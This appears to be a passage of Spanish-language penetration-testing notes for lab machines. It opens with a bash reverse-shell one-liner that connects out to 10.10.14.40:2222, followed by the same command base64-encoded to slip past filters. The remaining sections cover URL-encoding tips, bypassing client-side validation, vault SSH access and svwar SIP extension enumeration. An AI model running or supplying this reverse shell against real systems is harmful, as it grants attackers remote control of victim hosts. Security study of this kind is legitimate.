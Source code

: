 
```bash
bash -i &>/dev/tcp/10.10.14.40/2222 <&1 | base64

YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjQwLzIyMjIgPCYxCg==
```
* _ESTO ES PROFESIONAL_

**urlencode cheat sheet:**
```bash
%20 = espacio
"+" = espacio (burpsuite)
%26 = &
%21 = !
%23 = # 
%24 = $
```
## ValidacionEnCliente

La validacion en cliente es una manera de garantizar un envio de datos
con ciertos parametros, al igual que puedes mejorar la seguridad de cierta manera.
Se puede jugar con el codigo de html de la página para que no resuelva la 
validación a nivel de cliente. 

## vault

vault es un metodo de seguridad para acceder 
a máquinas mediante ssh, estas máquinas son 
accesibles con el código de vault, suele ser
un token.

`vault ssh root@10.10.10.10`

Te mostrara un token en el inicio de la consulta de entrada por ssh. Este es el que tendras que poner


## VOIP
Conjunto de recursos que hacen posible que la señal de voz viaje a través de Internet empleando el protocolo IP

`svwar`

Este comando te encuentra una extensión valida para poner posteriormente en un exploit o para utilizar en otra conveniencia.

Las extensiones son necesarias cuando hablamos de aplicaciones web de VOIP.

`svwar -e100-300 10.10.10.7`

En caso de que no funcione tendriamos que especificar un metodo en este caso utilzaremos INVITE

svwar -m INVITE -e100-300 10.10.10.7

## WeakRsaPQ
